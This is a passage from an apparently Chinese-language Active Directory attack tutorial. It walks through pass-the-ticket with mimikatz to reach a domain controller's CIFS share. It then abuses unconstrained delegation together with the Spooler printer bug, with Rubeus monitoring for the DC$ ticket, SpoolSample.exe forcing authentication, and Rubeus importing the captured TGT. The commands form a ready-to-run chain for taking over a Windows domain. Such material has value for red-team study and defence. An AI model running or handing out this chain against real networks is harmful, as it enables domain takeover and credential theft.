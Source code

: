 通过域用户导入该票据

    
    
    mimikatz.exe "kerberos::ptt [0;46d958]-2-0-60a10000-Administrator@krbtgt-CCC1.TEST.kirbi"  
    

![](https://gitee.com/fuli009/images/raw/master/public/20221123153810.png)

再次访问dc的cifs服务发现是可以的

![](https://gitee.com/fuli009/images/raw/master/public/20221123153811.png)

可直接连接到DC

![](https://gitee.com/fuli009/images/raw/master/public/20221123153812.png)

### 非约束委派+Spooler

非约束委派利用的前提是必须通过域管来远程连接,在实战中通过域管来连接的情况是几乎不存在的，比较鸡肋，因此可以通过Spooler打印服务来强制指定的主机进行连接,来达到我们想要的效果。

MS-RPRN(Print System Remote
Protocol,打印系统远程协议)中`RpcRemoteFindFirstPrinterChangeNotification(Ex)`方法可以强制任何运行了spooler服务的计算机通过kerberos或者NTKLM对攻击者的目标机器进行身份验证.

splooer服务是默认运行的

![](https://gitee.com/fuli009/images/raw/master/public/20221123153813.png)

通过win7的本地管理员权限运行rubeus.exe进行监听

    
    
    Rubeus.exe monitor /interval:5 /filteruser:DC$  
      
    # /interval:5 设置监听间隔5秒  
    # /filteruser 监听对象为我们的域控，注意后面有个$，如果不设置监听对象就监听所有的TGT  
    

然后通过spoolsample.exe强制dc向win7机器进行身份验证，rubeus就会监听到base64编码后的TGT

    
    
    SpoolSample.exe DC WIN7-PC  
    

![](https://gitee.com/fuli009/images/raw/master/public/20221123153815.png)

image.png

通过rubeus导入票据

    
    
    rubeus.exe ptt /ticket:<ticket>  
    

![](https://gitee.com/fuli009/images/raw/master/public/20221123153817.png)
